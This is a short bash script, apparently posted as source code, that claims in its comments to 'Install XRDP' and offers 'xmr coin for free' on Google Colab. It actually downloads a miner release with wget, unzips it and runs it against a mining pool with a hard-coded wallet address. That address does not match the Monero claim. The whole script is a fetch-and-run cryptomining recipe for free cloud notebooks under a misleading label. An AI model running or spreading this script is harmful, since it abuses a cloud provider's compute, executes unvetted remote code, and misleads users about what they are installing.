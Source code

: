 #! /bin/bash
# Install XRDP
# Before get xmr coin for free
# Google Colab
sudo apt update
clear
sudo apt install screen
screen -R xmr
 
wget https://github.com/Beeppool/miner/releases/download/0.6.1/beepminer-0.6.1.zip

unzip beepminer-0.6.1.zip

cd beepminer-0.6.1

./miner --wallet-address='NQ94 UX9H A41G MKXC 8DFM 3C06 DPYD ELBQ K04S' --pool=pool.acemining.co:8443
